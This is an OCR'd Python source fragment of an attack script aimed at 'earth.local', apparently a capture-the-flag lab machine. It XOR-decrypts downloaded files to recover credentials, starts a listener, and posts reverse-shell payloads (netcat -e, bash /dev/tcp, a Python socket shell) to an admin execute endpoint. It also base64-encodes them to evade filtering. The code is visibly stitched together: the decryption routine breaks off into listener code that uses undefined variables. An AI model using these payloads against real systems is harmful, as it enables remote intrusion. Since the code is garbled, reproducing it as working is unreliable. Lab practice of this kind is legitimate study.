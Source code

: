 ```python
    def discover_credentials(self):
        """Phase 1: Discover and decrypt credentials"""
        self.log("Phase 1: Credential Discovery", "INFO")
        
        try:
            # Download key file
            key_url = f"https://terratest.earth.local/testdata.txt"
            key_response = self.session.get(key_url, verify=False)
            
            if key_response.status_code != 200:
                self.log("Failed to download key file", "ERROR")
                return False
                
            # Download encrypted message (this would be discovered during recon)
            # For demo purposes, assuming we found the encrypted message
            encrypted_url = f"https://terratest.earth.local/encrypted_message.txt"
            encrypted_response = self.session.get(encrypted_url, verify=False)
            
            if encrypted_response.status_code == 200:
                # XOR decryption
                key = key_response.content
                ciphertext = encrypted_response.content
                
                plaintext = bytearray()
                for i, byte in enumerate(ciphertext):
                    plaintext.append(byte ^ key[i % len(key)])
                
                decrypted = plaintext.decode('utf-8', errors='ignore')
                self.log(f"Shell response: {response.decode()}", "SUCCESS")
                conn.close()
                sock.close()
                
            except Exception as e:
                self.log(f"Listener error: {e}", "ERROR")
        
        # Start listener in background
        listener_thread = threading.Thread(target=listener)
        listener_thread.daemon = True
        listener_thread.start()
        
        time.sleep(2)  # Give listener time to start
        
        try:
            execute_url = f"http://earth.local/admin/execute"
            
            # Try different reverse shell payloads
            payloads = [
                f"nc -e /bin/bash {self.attacker_ip} {port}",
                f"bash -i >& /dev/tcp/{self.attacker_ip}/{port} 0>&1",
                f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{self.attacker_ip}\",{port}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'"
            ]
            
            for payload in payloads:
                self.log(f"Trying payload: {payload[:50]}...", "INFO")
                
                # Direct execution
                response = self.session.post(execute_url, data={"command": payload}, timeout=5)
                time.sleep(2)
                
                # Base64 encoded execution (bypass filtering)
                encoded_payload = base64.b64encode(payload.encode()).decode()
```